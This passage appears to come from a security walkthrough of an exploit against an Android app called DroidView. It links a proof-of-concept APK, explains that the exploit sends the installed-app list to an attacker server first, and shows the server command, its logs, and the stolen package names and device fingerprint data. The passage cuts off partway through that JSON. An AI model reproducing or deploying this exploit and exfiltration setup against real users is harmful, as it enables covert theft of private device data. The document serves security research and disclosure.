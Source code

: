 **Download PoC**: https://lautarovculic.com/my_files/DroidViewExploit.apk
Notice that we *first send the application* list to our server **before** that send the *intent* to DroidView.
This is because **if we send the intent to DroidView first**, our app will be *in background*, and DroidView in *foreground*, and the *theft of packages names* will never happen in this order.

Put the *server* to run and then, *launch the application*. Remember change the IP server by your own.
```bash
python3 server.py
```
Output:
```HTTP
192.168.0.6 - - [31/Aug/2025 14:44:36] "POST /collect HTTP/1.1" 200 -
192.168.0.6 - - [31/Aug/2025 14:44:38] "GET / HTTP/1.1" 200 -
```

```json
{
  "INSTALLED_APPLICATIONS": 235,
  "hit": {
    "ts": "2025-08-31T17:43:33.255927Z",
    "remote_addr": "192.168.0.6",
    "ua": "Dalvik/2.1.0 (Linux; U; Android 11; Redmi Note 8 Build/RKQ1.201004.002)",
    "data": {
      "ip_ext": "local_exploit",
      "info": {},
      "apps": [
        "com.miui.screenrecorder",
        "com.lautarovculic.droidviewexploit",
        "com.qualcomm.qti.qcolor",
        "com.google.android.ext.services",
        "com.qualcomm.qti.improvetouch.service",
        "com.android.providers.telephony",
        "com.android.dynsystem",
        "com.miui.powerkeeper",
        "com.goodix.fingerprint",
        "com.xiaomi.miplay_client",
        "com.miui.fm",
        "com.android.providers.calendar"
        [...]
        [...]
        [...]
        [...]
        [...]
{
  "hit": {
    "ts": "2025-08-31T17:44:39.523716Z",
    "remote_addr": "192.168.0.6",
    "ua": "Mozilla/5.0 (Linux; Android 11; Redmi Note 8 Build/RKQ1.201004.002; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/139.0.7258.143 Mobile Safari/537.36",
    "data": {
      "ip_ext": "REDACTED",
      "info": {
        "ua": "Mozilla/5.0 (Linux; Android 11; Redmi Note 8 Build/RKQ1.201004.002; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/139.0.7258.143 Mobile Safari/537.36",
        "lang": "en-US",
        "platform": "Linux aarch64",
        "mem": null,
        "cores": 8,
        "screen": {
          "w": 393,
          "h": 851,
          "p": 2.75
        },
```